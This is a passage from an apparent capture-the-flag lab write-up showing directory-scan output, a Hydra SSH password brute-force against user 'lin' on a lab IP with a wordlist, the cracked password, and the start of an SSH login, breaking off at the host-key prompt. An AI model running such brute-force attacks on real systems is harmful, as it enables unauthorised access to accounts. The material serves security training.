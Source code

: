 ```bash
[16:11:12] 403 -  275B  - /.htm
[16:11:12] 403 -  275B  - /.html
[16:11:13] 403 -  275B  - /.httr-oauth
[16:11:13] 403 -  275B  - /.htpasswds
[16:11:13] 403 -  275B  - /.htpasswd_test
[16:13:28] 200 -  455B  - /images/
[16:13:28] 301 -  309B  - /images  ->  http://10.10.67.0/images/
[16:14:16] 403 -  275B  - /server-status/
[16:14:16] 403 -  275B  - /server-status

Task Completed
```
### Nothing much useful

## 4. Let Brute Ssh 
### As we have ```lin``` user and password wordlist so let brute ssh using Hydra
```bash
┌──(death㉿esther)-[~/Lab-CTF/Bugbounty-hunter]
└─$ hydra -l lin -P locks.txt ssh://10.10.67.0 -V     
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-04-13 16:19:36
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 26 login tries (l:1/p:26), ~2 tries per task
[DATA] attacking ssh://10.10.67.0:22/
[ATTEMPT] target 10.10.67.0 - login "lin" - pass "rEddrAGON" - 1 of 26 [child 0] (0/0)
[ATTEMPT] target 10.10.67.0 - login "lin" - pass "ReDdr4g0nSynd!cat3" - 2 of 26 [child 1] (0/0)
[ATTEMPT] target 10.10.67.0 - login "lin" - pass "Dr@gOn$yn9icat3" - 3 of 26 [child 2] (0/0)
[ATTEMPT] target 10.10.67.0 - login "lin" - pass "R3DDr46ONSYndIC@Te" - 4 of 26 [child 3] (0/0)
[ATTEMPT] target 10.10.67.0 - login "lin" - pass "ReddRA60N" - 5 of 26 [child 4] (0/0)
[ATTEMPT] target 10.10.67.0 - login "lin" - pass "R3dDrag0nSynd1c4te" - 6 of 26 [child 5] (0/0)
[ATTEMPT] target 10.10.67.0 - login "lin" - pass "dRa6oN5YNDiCATE" - 7 of 26 [child 6] (0/0)
[ATTEMPT] target 10.10.67.0 - login "lin" - pass "ReDDR4g0n5ynDIc4te" - 8 of 26 [child 7] (0/0)
[ATTEMPT] target 10.10.67.0 - login "lin" - pass "R3Dr4gOn2044" - 9 of 26 [child 8] (0/0)
[ATTEMPT] target 10.10.67.0 - login "lin" - pass "RedDr4gonSynd1cat3" - 10 of 26 [child 9] (0/0)
[ATTEMPT] target 10.10.67.0 - login "lin" - pass "R3dDRaG0Nsynd1c@T3" - 11 of 26 [child 10] (0/0)
[ATTEMPT] target 10.10.67.0 - login "lin" - pass "Synd1c4teDr@g0n" - 12 of 26 [child 11] (0/0)
[ATTEMPT] target 10.10.67.0 - login "lin" - pass "reddRAg0N" - 13 of 26 [child 12] (0/0)
[ATTEMPT] target 10.10.67.0 - login "lin" - pass "REddRaG0N5yNdIc47e" - 14 of 26 [child 13] (0/0)
[ATTEMPT] target 10.10.67.0 - login "lin" - pass "Dra6oN$yndIC@t3" - 15 of 26 [child 14] (0/0)
[ATTEMPT] target 10.10.67.0 - login "lin" - pass "4L1mi6H71StHeB357" - 16 of 26 [child 15] (0/0)
[22][ssh] host: 10.10.67.0   login: lin   password: RedDr4gonSynd1cat3
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 2 final worker threads did not complete until end.
[ERROR] 2 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-04-13 16:19:49
```
### We got The ssh password let Login
```bash
┌──(death㉿esther)-[~/Lab-CTF/Bugbounty-hunter]
└─$ ssh lin@10.10.67.0                                                                              
The authenticity of host '10.10.67.0 (10.10.67.0)' can't be established.
ED25519 key fingerprint is SHA256:Y140oz+ukdhfyG8/c5KvqKdvm+Kl+gLSvokSys7SgPU.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:12: [hashed name]
```